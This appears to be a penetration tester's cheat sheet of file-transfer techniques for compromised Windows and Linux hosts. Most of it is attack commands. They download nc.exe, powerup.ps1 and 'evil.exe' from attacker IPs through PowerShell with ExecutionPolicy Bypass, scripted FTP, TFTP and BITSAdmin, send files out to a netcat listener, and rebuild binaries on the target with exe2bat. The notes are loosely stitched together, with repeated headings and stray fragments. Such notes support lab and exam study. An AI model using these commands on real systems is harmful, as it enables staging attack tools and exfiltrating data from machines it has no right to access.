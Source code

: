 ## File Transfer
https://bitrot.sh/cheatsheet/01-26-2018-organic-file-transfer/
### Windows
1. Powershell

`powershell -command "wget http://10.10.14.26:8080/nc.exe -OutFile n.exe"`

2. BITSADMIN

/TRANSFER <job name> [type] [/PRIORITY priority] [/ACLFLAGS flags]
          remote_url local_name
    Transfers one of more files.
    [type] may be /DOWNLOAD or /UPLOAD; default is download
    Multiple URL/file pairs may be specified.
    Unlike most commands, <job name> may only be a name and not a GUID.

3. Powershell script called `post.ps1`

4. Netcat

Server : `nc.exe -w 3 10.10.14.26 1337 < filetosend`
Attacker machine : `nc -lvp 1337 > out.file`

5. smbserver and net use
You can also use the smbserver.py from Impacket’s repo to host a temporary smb server and fetch files in windows from remote smb servers using the net use command.

6. Using Base64 if certutil Installed

 Encode a data file to Base64
`certutil -encode data.txt tmp.b64 && findstr /v /c:- tmp.b64 > data.b64`

 Decode a Base64 file

`certutil -decode data.b64 data.txt`

### Linux
1. File Upload on linux systems via base64 encoding

Converting a file to base64:


1. Using Base64
`cat file2upload | base64`
Once the file is converted to base64, you can just create a new file on the remote system and copy the base64 output of the above file into it. Next step would be to reverse the base64 to binary

`cat fileWithBase64Content | base64 -d > finalBinary`





####WINDOWS file transfers

##File Transfers

limit commands on shell to be non-interactive
https://blog.netspi.com/15-ways-to-download-a-file/

+ TFTP

Windows XP and Win 2003 contain tftp client. Windows 7 do not by default
tfpt clients are usually non-interactive, so they could work through an obtained shell
atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe

+ FTP
Windows contain FTP client but they are usually interactive
Solution: scripted parameters in ftp client: ftp -s
ftp-commands
echo open 192.168.30.5 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt


+ Powershell

echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.102/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
Webdav
On kali linux install wsgidav and cheroot
pip install wsgidav cheroot
Start the wsgidav on a restricted folder:
mkdir /tmp/webdav_folder
wsgidav --host=0.0.0.0 --port=80 --root=/tmp/webdav_folder
On Windows mount this folder using net use:
net use * http://YOUR_IP_ADDRESS/
Reference: https://github.com/mar10/wsgidav

+ BitsAdmin
bitsadmin /transfer n http://domain/file c:%homepath%file
debug.exe
+ First use upx or similar to compress the executable:
upx -9 nc.exe
Then use exe2bat to convert the executable into a series of echo commands that are meant to be copied pasted in the remote system:
wine exe2bat.exe nc.exe nc.txt
Then copy paste each command from nc.txt in the remote system. The commands will gradually rebuild the executable in the target machine.
+ certuril
certutil.exe -URL

will fetch ANY file and download it here:
C:\Users\subTee\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
Resources
